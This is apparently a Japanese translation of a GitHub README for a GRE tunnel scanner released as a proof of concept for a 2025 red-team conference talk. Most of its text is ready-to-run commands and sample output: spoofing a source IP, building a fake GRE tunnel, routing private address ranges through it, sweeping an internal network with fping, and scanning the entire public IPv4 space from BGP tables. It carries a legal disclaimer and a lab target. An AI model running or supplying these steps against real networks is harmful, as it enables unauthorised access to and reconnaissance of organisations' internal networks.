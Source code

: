 # GREトンネルスキャナー
## ⚠️⚠️⚠️ 重要 ⚠️⚠️⚠️
### ⚠️このツールは送信元IPアドレスの偽装を含みます。使用には法的な許可があることを必ず確認してください。⚠️
## 参考
- これはトークのPoCコードです：From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion
    - [Black Hat USA 2025 ブリーフィング](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 メインステージ](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)
## 準備
- `pip3 install requirement.txt`
## 使い方
```
python3 main.py -i <interface> -lh <your_public_IP> -s <gre_src_ip_subnet or ip_list_file> -d  <gre_dst_ip_subnet or ip_list_file> -o <logfile>
```
## 例
- 例えば `1.1.1.1` と `2.2.2.2` はGREトンネルを持ち、あなたは `3.3.3.3` です
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2
INFO - sending gresrc 1.1.1.1, gredst 2.2.2.2
CRITICAL - Received reply from 2.2.2.2 GRE peer: 1.1.1.1
```
- そしてGREトンネルの悪用方法を理解する
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2 -sch -l3
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=eth0
MYPUBIP=3.3.3.3
SRCADDR=1.1.1.1
DSTADDR=2.2.2.2
ip addr add  $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280

## route possible private ip ##
ip r add 10.0.0.0/8 dev gre1 src $MYPUBIP
ip r add 172.16.0.0/12 dev gre1 src $MYPUBIP
ip r add 192.168.0.0/16 dev gre1 src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16

### cleanup ###
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```
- エンドポイントは分かっているがピアアドレスが分からない場合は、次のようにできます
  - `python3 main.py  -i eth0 -l3 -lh 3.3.3.3 -s 1.1.1.0/24 -d 2.2.2.2 -id 8.8.8.8`
  - 正しいピアが得られつつ、8.8.8.8からの応答が得られます

- デフォルト設定は約500パケット/秒です。
## オプション
- `-sch`: チートシートを表示して終了（見つけたら -i -lh -s -d を入力し、GREトンネル悪用コマンドを取得）
- `-l3`: レイヤ3トンネルインターフェース（デフォルト: False）
- `-r`: ICMP内にGREの宛先IP情報を配置（デフォルト: GREの送信元IP情報を配置）
- `-ss`: ステータスファイルを保存・使用（前回のスキャンを再開）（デフォルト: False）
  - 大規模スキャンシステムでは「on」を推奨、時々スクリプトが停止することを防ぐ
- `-i <interface>`: パケット送信に使用するインターフェース
- `-s <ip_or_file>`: GRE送信元として使用するIPサブネットまたはIP(サブネット)リスト
- `-d <ip_or_file>`: GRE宛先として使用するIPサブネットまたはIP(サブネット)リスト
- `-L <file>`: GREピアのリストをスキャン
  - ファイルの各行は `1.1.1.1,2.2.2.2` の形式
- `-lh <ip>`: 公開インターフェース上のIP（-iインターフェースのIP）
- `-o <file>`: ログファイルパス
- `-t <float>`: GREパケット送信後の待機秒数（デフォルト: 2）
- `-T <int>`: 同時にGREパケットを送信するスレッド数（デフォルト: 255）
- `-cs <int>`: ping応答待ち開始までに送信するIP数（デフォルト: 1000）
- `-dp`: プライベートスキャン - プライベートIPのGREをスキャン（デフォルト: False）
- `-id <ip>`: ICMP内の宛先アドレス（デフォルト: GRE宛先と同じ）
  - 内部イントラネットアドレスが分かっている場合に使用
- `-v <log_level>`: ログレベル `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']`（デフォルト: INFO）
  - GREピア発見ログは `CRITICAL` レベルで出力

## 公開IP全域をスキャンするより良い方法


```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i  <interface> -lh <your_public_IP> -s aggrv4table.txt -d <your_target> -ss
```

## ラボ
### デモ動画
- [Youtube](https://youtu.be/DDvfYl5-J28)
### GREトンネルのスキャン
`python3 main.py -i <iface> -lh <your_ip> -s 1.1.1.1 -d 160.25.104.199`
### 社内ネットワークへのアクセスとスキャン
```
#### Create Fake Tunnel ####
IFACE=eth0  #change this 
MYPUBIP=9.9.9.9  #change this
GATEWAY=1.2.3.4 #change this
SRCADDR=1.1.1.1 # lab info don't change
DSTADDR=160.25.104.199 # lab info don't change
ip addr add $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE via $GATEWAY src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280
### start scan intranet ###
fping -g 192.168.0.0/16

##### scan output #####
# 192.168.1.2 is alive

## test curl to web ##
curl 192.168.1.2
# YOU KNOW GRE!

#### cleanup ####
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```

## 免責事項
このプロジェクトは教育および研究目的のみに使用されます。このコードに関連するあらゆる行為および活動は、全て利用者の責任です。著者および寄稿者は、本プロジェクトの誤用や損害について一切責任を負いません。テスト、使用、または本コードのいかなる部分を環境で展開する前に、適切な許可があることを必ず確認してください。無許可の使用は、地域、州、連邦の法律に違反する可能性があります。

## ライセンス
本プロジェクトはMITライセンスの条件のもとでライセンスされています。



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-10-11

---